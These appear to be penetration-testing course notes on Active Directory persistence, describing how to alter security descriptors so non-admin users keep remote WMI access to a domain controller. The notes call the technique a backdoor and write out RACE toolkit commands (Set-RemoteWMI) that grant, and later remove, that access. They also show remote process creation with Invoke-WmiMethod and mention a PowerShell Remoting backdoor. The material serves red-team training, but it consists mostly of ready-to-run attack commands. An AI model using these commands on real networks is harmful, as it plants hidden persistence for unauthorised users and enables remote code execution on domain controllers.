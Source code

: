 - It is possible to modify **Security Descriptors** (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (securable objects) to allow access to non-admin users.
- Administrative privileges are required for this.
- It, of course, works as a very useful and impactful **backdoor mechanism**

**Security Descriptor Definition Language defines the format which is used to describe a security descriptor. SDDL uses ACE strings for DACL and SACL**:
```powershell
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
```

**ACE for built-in administrators for WMI namespaces**:
```powershell
A;CI;CCDCLCSWRPWPRCWD;;;SID
```

## WMI

ACLs can be modified to allow non-admin users access to securable objects. 

**Using the RACE toolkit**:
```powershell
. C:\AD\Tools\RACE-master\RACE.ps1
```

**On local machine for student1**:
```powershell
Set-RemoteWMI -SamAccountName student1 -Verbose
```

**On remote machine for student1 without explicit credentials**:
```powershell
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```

**On remote machine with explicit credentials. Only root\cimv2 and nested namespaces**:
```powershell
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose
```

**On remote machine remove permissions**:
```powershell
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose
```

example of code execution with WMI:
```powershell
Invoke-WmiMethod -Class win32_process -Name Create -ArgumentList ‘calc.exe’ -ComputerName dcorp-dc
gwmi - Class win32_operatingsystem -ComputerName dcorp-dc
```

## PowerShell Remoting

> Using the RACE toolkit - PS Remoting backdoor not stable after August 2020 patches
